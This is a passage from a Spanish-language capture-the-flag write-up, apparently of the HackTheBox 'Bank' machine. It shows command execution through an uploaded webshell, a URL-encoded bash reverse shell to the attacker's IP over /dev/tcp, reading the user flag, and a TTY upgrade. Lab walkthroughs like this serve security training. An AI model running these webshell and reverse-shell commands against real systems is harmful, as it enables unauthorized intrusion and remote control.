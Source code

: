 Realizamos una comprobación para verificar que tenemos la capacidad de ejecutar comandos a través de la **webshell** subida.

```bash
❯ curl -s 'http://bank.htb/uploads/gzzcoo.htb?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Al verificar el **RCE**, el siguiente paso será lograr obtener acceso al sistema. Nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

A través del primer comando, lo que realizaremos es codificar nuestra sintaxis de la reverse shell en formato URL, para no tener problemas a la hora de ejecutarlo a través de la **webshell**.

Una vez obtenido el comando a ejecutar, haremos uso de la **webshell** para otorgarnos acceso al sistema.

```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.16.3/443 0>&1"' | jq -sRr @uri
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F443%200%3E%261%22

❯ curl -s 'http://bank.htb/uploads/gzzcoo.htb?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F443%200%3E%261%22'
```

Verificamos que finalmente logramos acceso al equipo y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.29] 60798
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ cat /home/chris/user.txt
ab47a4cf55**********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
www-data@bank:/var/www/bank/uploads$ script /dev/null -c bash
script /dev/null -c bash
www-data@bank:/var/www/bank/uploads$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                                reset xterm
www-data@bank:/var/www/bank/uploads$ export TERM=xterm
www-data@bank:/var/www/bank/uploads$ export SHELL=bash
www-data@bank:/var/www/bank/uploads$ stty rows 46 columns 230
```
